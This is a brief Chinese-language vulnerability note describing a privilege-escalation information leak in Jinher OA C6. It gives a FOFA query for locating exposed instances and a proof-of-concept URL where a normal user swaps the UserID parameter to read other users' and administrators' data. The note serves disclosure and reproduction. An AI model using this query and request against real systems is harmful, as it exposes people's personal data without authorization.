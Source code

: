# 金和OA C6 越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

> [!NOTE]
>
> app="Jinher-OA"

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

> [!NOTE]
>
> 注意 RY120330 需要为确定的其他的用户编号

![](金和OA-C6-后台越权信息泄露漏洞.assets/16273635102990851.jpg)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA